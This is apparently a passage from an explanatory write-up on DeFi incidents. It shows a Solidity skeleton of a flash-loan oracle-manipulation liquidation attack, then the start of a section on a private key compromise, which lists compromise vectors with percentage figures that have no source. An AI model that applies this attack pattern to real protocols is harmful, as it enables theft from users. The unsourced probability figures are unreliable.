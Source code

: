```solidity
        uint256 userCollateral = getUserCollateral(user, asset);
        uint256 userDebt = getUserDebt(user);
        
        // Liquidation threshold check using manipulated price
        if (userCollateral * currentPrice < userDebt * LIQUIDATION_RATIO) {
            _executeLiquidation(user, asset);
        }
    }
}
```

**The Attack Execution:**
```solidity
contract OracleManipulationAttack {
    IFutureProtocol target;
    
    function executeAttack() external {
        // Step 1: Flash loan to manipulate underlying oracle
        uint256 flashAmount = 10000 ether;
        initiateFlashLoan(flashAmount);
    }
    
    function onFlashLoan(uint256 amount) external {
        // Step 2: Manipulate the price oracle
        manipulateOracle(targetAsset, inflatedPrice);
        
        // Step 3: Liquidate positions at manipulated prices
        target.liquidate(victimUser, targetAsset);
        
        // Step 4: Restore oracle price
        restoreOracle(targetAsset, originalPrice);
        
        // Step 5: Repay flash loan with profit
        repayFlashLoan(amount);
    }
}
```

---

## 🔴 Neemo Protocol: Private Key Compromise

**The Crisis:** Neemo Protocol suffered approximately $1.5 million in losses due to private key theft, highlighting persistent operational security failures.

### Root Cause Analysis

```bash
# Typical private key compromise vectors
Compromise Vector Analysis:
├── Phishing Attack: 35% probability
├── Malware Infection: 25% probability  
├── Social Engineering: 20% probability
├── Insider Threat: 15% probability
└── Infrastructure Breach: 5% probability
```
